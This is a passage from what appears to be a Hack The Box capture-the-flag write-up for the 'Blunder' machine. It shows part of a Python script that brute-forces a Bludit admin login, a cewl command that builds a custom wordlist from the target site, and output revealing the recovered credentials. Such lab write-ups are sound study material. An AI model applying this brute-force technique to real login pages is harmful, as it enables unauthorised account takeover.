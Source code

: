 ```python
    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```
In this case, we run the brute force attack using rockyou.txt wordlist. When the brute force attack was running,no username and password were found. i try to use cewl (https://tools.kali.org/password-attacks/cewl and for some of tutorial http://stuffjasondoes.com/2018/07/18/creating-custom-wordlists-for-targeted-attacks-with-cewl/) to generate custom password list from the website.
```
╭─twseptian@twsterlab ~/lab/HTB/boxes/blunder 
╰─$ cewl -d 3 -m 4 -w wordlist.txt http://10.10.10.191
```
and try to run again python brute force scrip, and we got some of output
```
╭─twseptian@twsterlab ~/lab/HTB/boxes/blunder 
╰─$ python2.7 bypass-password-bludit.py               
[*] Trying: Load
....
[*] Trying: fictional
[*] Trying: character
[*] Trying: RolandDeschain
()
SUCCESS: Password found!
Use fergus:RolandDeschain to login.
()
```
![14](/assets/images/htb-machine-blunder/14.png)

let's try input the username with fergus and password is `RolandDeschain`
![15](/assets/images/htb-machine-blunder/15.png)
back again to metasploit
```
```